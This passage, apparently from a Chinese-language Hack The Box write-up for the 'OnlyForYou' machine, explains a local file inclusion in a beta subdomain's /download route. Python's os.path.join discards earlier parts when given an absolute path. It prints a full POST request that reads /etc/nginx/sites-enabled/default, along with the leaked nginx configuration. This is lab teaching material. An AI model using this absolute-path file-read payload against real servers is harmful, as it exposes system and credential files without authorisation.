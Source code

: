#### 发现子域LFI

注意到源码里'/download'路由的部分，有防止目录遍历的代码，不过试了下不知道为什么可以直接写绝对路径访问目标文件。  
*后来根据[0xdf的WP](https://0xdf.gitlab.io/2023/08/26/htb-onlyforyou.html#file-read)，原来是python的`os.path.join`代码有点微妙的智能——如果直接写绝对路径，则会忽略前面join的部分，直接从绝对路径继续join。（[python文档](https://docs.python.org/3.10/library/os.path.html#os.path.join)）*

由于目标是nginx服务器，看一眼nginx配置，然后看看子域配置。  
请求：
```http
POST /download HTTP/1.1
Host: beta.only4you.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://beta.only4you.htb
Connection: close
Referer: http://beta.only4you.htb/list
Upgrade-Insecure-Requests: 1

image=/etc/nginx/sites-enabled/default
```

响应：
```
server {
    listen 80;
    return 301 http://only4you.htb$request_uri;
}

server {
	listen 80;
	server_name only4you.htb;

	location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/only4you.htb/only4you.sock;
	}
}

server {
	listen 80;
	server_name beta.only4you.htb;

        location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/beta.only4you.htb/beta.sock;
        }
}
```
